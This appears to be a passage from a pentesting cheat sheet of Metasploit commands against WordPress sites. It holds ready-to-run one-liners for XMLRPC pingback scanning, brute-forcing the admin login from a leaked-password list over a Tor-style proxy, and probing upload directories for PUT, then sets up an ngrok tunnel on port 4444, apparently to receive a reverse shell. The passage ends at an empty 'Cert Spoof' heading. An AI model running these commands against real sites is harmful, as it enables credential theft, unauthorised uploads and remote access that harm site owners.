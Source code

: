 #### [Metasploit](https://www.metasploit.com/)

_PingBack XMLRPC_

```bash
msfconsole -qx "
    use auxiliary/scanner/http/wordpress_pingback_access;
    set RHOSTS $WEBSITE;
    set RPORT 443;
    set SSL true;
    run;
    exit"
```

_Brute force XMLRPC with Multitor_

```bash
msfconsole -qx "
    use scanner/http/wordpress_xmlrpc_login;
    set RHOSTS $WEBSITE;
    set RPORT 443;
    set SSL true;
    set USERNAME admin;
    set PASS_FILE /usr/share/seclists/Passwords/darkweb2017-top10000.txt;
    set THREADS 10;
    set STOP_ON_SUCCESS true;
    set Proxies socks4:127.0.0.1:16379;
    run;
    exit"
```

_Scan PUT Methods_

```bash
msfconsole -qx "
    use auxiliary/scanner/http/http_put;
    set RHOSTS $WEBSITE;
    set RPORT 443;
    set SSL true;
    set PATH /wp-content/uploads;
    run -j"
```

_Start Ngrok_

```bash
ngrok tcp 4444 >/dev/null 2>&1 &
```

_Define ENV Ngrok_

```bash
NGINFO=$(curl --silent --show-error http://127.0.0.1:4040/api/tunnels); \
NGHOST=$(echo "$NGINFO" | sed -nE 's/.*public_url":"tcp:\/\/([^"]*):.*/\1/p'); \
NGPORT=$(echo "$NGINFO" | sed -nE 's/.*public_url":"tcp:\/\/.*.tcp.*.ngrok.io:([^"]*).*/\1/p')
```

_Cert Spoof_
